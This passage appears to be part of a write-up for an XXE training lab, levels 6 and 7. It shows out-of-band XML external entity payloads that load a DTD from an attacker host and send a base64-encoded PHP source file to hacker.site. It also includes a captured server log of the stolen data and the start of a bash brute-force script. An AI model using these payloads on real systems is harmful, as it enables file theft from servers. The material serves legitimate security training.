 ```bash
X-Requested-With: XMLHttpRequest
Content-Length: 300
Origin: http://6.xxe.labs
Connection: close
Referer: http://6.xxe.labs/

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.90.112.2:8888/evil.dtd"> %xxe;]>
<login>
<username>
asd
</username>
<password>
asd
</password>
</login>                                          
```
On the python server we will receive:
```bash
192.90.112.3 - - [18/Jan/2023 20:25:15] "GET /?x=PD9waHAgDQoNCiMgR3JlYXQhISBTaW1wbGUgaXNuJ3QgaXQ/IQ0KDQokdXNlcm5hbWUgPSAiT09CRXhwbG9pdGF0aW9uRlRXIjs= HTTP/1.0" 200 -
```
Which is our answer.
Alternatively we can use also xxeserve.rb to automate some steps.
Alternative XXE are as follows:
```xml
<!--Main body-->
<?xml version='1.0'?>
<!DOCTYPE xxe [
    <!ENTITY % EvilDTD SYSTEM 'http://hacker.site/evil_oob.dtd'>
    %EvilDTD;
    %LoadOOBEnt;
    %OOB;
]>
<login>
    <username>XXEME</username>
    <password>password</password>
</login>"
<!--DTD-->
<!ENTITY % resource SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/6/.letmepass.php">
<!ENTITY % LoadOOBEnt "<!ENTITY &#x25; OOB SYSTEM 'http://hacker.site:2108/?p=%resource;'>">
```
### Level 7
Same as above as payload, but as instructed in the php file we downloaded we know that we are in a similar situation as level 5 and thus we need to bruteforce the filename with the wordlist.
The bruteforce of the name can also be done with a custom script such as file_extractor-1.sh:
```bash
#!/bin/bash
if [ $# -ne 1 ]; then
	echo "Usage $0 <base_path_where_start>"
    exit
fi

XXESERVE_FILES="/home/ohpe/tools/xxeserve/files/*.*"
PHP_PROXY="http://hacker.site/getOOB.php?r="

LOGIN_PATH="http://7.xxe.labs/login.php"
FOLDER_TOFUZZ=$1

echo -e "==========================================="
echo -e "\t\tSTART\n"

```